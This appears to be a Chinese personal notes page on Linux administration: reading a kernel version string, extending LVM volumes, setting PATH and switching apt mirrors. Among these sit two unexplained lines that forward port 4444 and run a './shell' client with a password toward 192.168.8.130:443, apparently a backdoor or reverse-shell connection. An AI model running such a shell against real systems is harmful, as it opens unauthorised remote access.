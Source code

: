 

将yu机器接收到的4444端口 转发到192.168.8.130：443 端口



### 版本号

```
Linux localhost 3.2.0-67-generic #101-Ubuntu SMP Tue Jul 15 17:46:11 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

```
第一个组数字：3,主版本号
第二个组数字：2,次版本号，当前为稳定版本
第三个组数字：0,修订版本号
第四个组数字：67，当前内核版本（3.2.0）的第67次微调patch
generic：当前内核版本为通用版本，另有表示不同含义的server（针对服务器）、i386（针对老式英特尔处理器）
pae（PhysicalAddressExtension）：物理地址扩展，为了弥补32位地址在PC服务器应用上的不足而推出，表示此32位系统可以支持超过4G的内存
x86_64：采用的是64位的CPU
SMP：对称多处理机，表示内核支持多核、多处理器
TueJul1517:46:11UTC2014：内核的编译时间（builddate）为2014/07/1517:46:11
```

### linux扩容

```
先用指令 df -h 查看磁盘情况。
vgdisplay
```

![Snipaste_2023-01-09_17-07-01](E:../\images\Snipaste_2023-01-09_17-07-01.png)

```
lvextend -L +1G /dev/mapper/ubuntu 表示加1G到/dev/mapper/ubuntu
lvextend -L 100G /dev/mapper/ubuntu 表示扩大到100G /dev/mapper/ubuntu
resize2fs /dev/mapper/ubuntu 使用resize2fs指令来增大或者收缩未加载的“ext2/ext3”文件系统的大小
```

###  ubuntu 加入环境变量

```
export PATH=/home/fuller/Qt5.9.0/Tools/QtCreator/bin:$PATH
```



```
./shell -t 192.168.8.130 -p 443 -s s3cr3t -r 1
```

更新镜像源

```
cat > /etc/apt/sources.list <<EOF
deb http://mirrors.aliyun.com/ubuntu/ focal main restricted universe multiverse
deb http://mirrors.aliyun.com/ubuntu/ focal-security main restricted universe multiverse
deb http://mirrors.aliyun.com/ubuntu/ focal-updates main restricted universe multiverse
deb http://mirrors.aliyun.com/ubuntu/ focal-backports main restricted universe multiverse

EOF
```
